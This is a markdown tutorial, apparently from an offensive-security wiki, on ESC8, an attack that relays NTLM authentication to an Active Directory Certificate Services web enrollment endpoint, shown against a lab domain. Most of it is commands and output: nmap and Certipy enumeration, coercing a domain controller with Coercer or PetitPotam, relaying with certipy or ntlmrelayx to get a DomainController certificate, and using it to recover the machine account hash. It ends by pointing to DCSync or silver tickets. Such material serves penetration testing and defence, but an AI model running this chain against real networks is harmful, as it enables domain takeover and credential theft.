

### Content

- [Overview](#overview)
	- [Requirements](#requirements)
- [From Linux](#from-linux)
	- [Linux - Enumeration](#linux---enumeration)
	- [Linux - Abuse](#linux---abuse)

> NTLM relay over ADCS HTTP enrollment endpoint

---
### Overview

ESC8 is an ADCS misconfiguration that can be abused using NTLM relay to ADCS HTTP endpoints.

NTLM relay attack against domain joined machine happens when an attacker:

- Pretends to be a legitimate server for the victim (client) who is requesting authentication.
- Establishes an authenticated session with the target server.

The attacker abuses it to carry out authorized actions on behalf of the client; for the client, the Attacker either sends an application message stating that authentication failed or terminates the connection:



ADCS allows users and machines to request certificates over HTTP. This HTTP service is typically available at a specific URL, `http://<servername>/certsrv/certfnsh.asp`, which acts as an interface to the CA. HTTP protocol does not validate NTLM signatures during authentication. This creates an opportunity for relay attacks. An attacker can intercept an NTLM authentication attempt (for example, by coercing a machine to authenticate) and relay it to the ADCS web enrollment endpoint. By successfully relaying the authentication, the attacker can impersonate the original user or machine and request a certificate on their behalf from the CA.

#### Requirements

- Vulnerable web enrollment endpoint
- A template that has the following, enabled: 
	- Domain computer enrollment
	- Client authentication

---
### From Linux
#### Linux - Enumeration

Conducting Nmap scan over a server that is hosting ADCS HTTP enrollment endpoint:

```bash
$ nmap ws01.lab.local -A -sCV -T5
Starting Nmap 7.80 ( https://nmap.org ) at 2026-07-08 20:58 UTC
Nmap scan report for ws01.lab.local (172.16.19.5)
Host is up (0.00055s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|   NTLM
|_  Negotiate
| http-ntlm-info:
|   Target_Name: DC
|   NetBIOS_Domain_Name: DC
|   NetBIOS_Computer_Name: WS01
|   DNS_Domain_Name: lab.local
|   DNS_Computer_Name: WS01.lab.local
|_  Product_Version: 10.0.17763
|_http-server-header: Microsoft-IIS/10.0
|_http-title: 401 - Unauthorized: Access is denied due to invalid credentials.
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|   NTLM
|_  Negotiate
| http-ntlm-info:
|   Target_Name: DC
|   NetBIOS_Domain_Name: DC
|   NetBIOS_Computer_Name: WS01
|   DNS_Domain_Name: lab.local
|   DNS_Computer_Name: WS01.lab.local
|_  Product_Version: 10.0.17763
|_http-server-header: Microsoft-IIS/10.0
|_http-title: 401 - Unauthorized: Access is denied due to invalid credentials.
| ssl-cert: Subject: commonName=lab-WS01-CA
| Not valid before: 2023-07-06T09:44:47
|_Not valid after:  2122-07-06T09:54:47
|_ssl-date: 2026-07-08T20:58:54+00:00; 0s from scanner time.
| tls-alpn:
|_  http/1.1
[SNIP]
```

Or using `Certipy`

```bash
$ certipy find -u cken -p Superman001 -dc-ip 172.16.19.3 -stdout -vulnerable

Certificate Authorities
  0
    CA Name                             : lab-WS01-CA
    DNS Name                            : WS01.lab.local
    Certificate Subject                 : CN=lab-WS01-CA, DC=lab, DC=local
    Certificate Serial Number           : 238F549429FFF796430B5F486159490B
    Certificate Validity Start          : 2023-07-06 09:44:47+00:00
    Certificate Validity End            : 2122-07-06 09:54:47+00:00
    Web Enrollment
      HTTP
        Enabled                         : True
      HTTPS
        Enabled                         : True
        Channel Binding (EPA)           : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Disabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : LAB.LOCAL\Administrators
      Access Rights
        ManageCa                        : LAB.LOCAL\Administrators
                                          LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
        ManageCertificates              : LAB.LOCAL\Administrators
                                          LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
        Enroll                          : LAB.LOCAL\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled over HTTP and HTTPS, and Channel Binding is disabled.
      ESC11                             : Encryption is not enforced for ICPR (RPC) requests.
```

#### Linux - Abuse 

If we coerced:

- Domain controller, we can use the default `DomainController` template
- Regular computer, we can use the default `Machine` template
- An administrator, we can use the default `Administrator` template

We can also enumerate the other enabled templates to choose.

```bash
# At first we can test if the target is vulnerable to coercing using coercer
$ sudo coercer scan -d lab.local -u blwasp -p 'Password123!' -t <TARGET-MACHINE-IP>

# Starting certipy in the relay mode so that it can authenticate on behalf of the coerced target (DC machine in our case) and request a certificate from the DomainController default template
$ sudo certipy relay -target <ADCS-CA-IP> -template DomainController

# Or use ntlmrelayx
$ ntlmrelayx -t http://$PKI.$DOMAIN/certsrv/certfnsh.asp --adcs --template "Template name"
```

Start coercing our target into authenticating to our `certipy` listener

```bash
$ coercer coerce -l <LISTENING-IP> -t <TARGET-IP> -u blwasp -p 'Password123!' -d lab.local -v

# Or use PetitPotam
$ python3 PetitPotam.py -u BlWasp -p 'Password123!' -d 'lab.local' <LISTENING-IP> <TARGET-IP>
```

On the `certipy` shell

```bash
$ sudo certipy relay -target <ADCS-CA-IP> -template DomainController
[SNIP]
[*] Saved certificate and private key to 'lab-dc.pfx'
[SNIP]

# Now we authenticate using the certificate we got
$ certipy auth -pfx ./lab-dc.pfx
[*] Got hash for 'lab-dc$@lab.local': aad3...:....
```

From this point we can initiate a DCSync attack or we can create a silver ticket to access the DC as Administrator.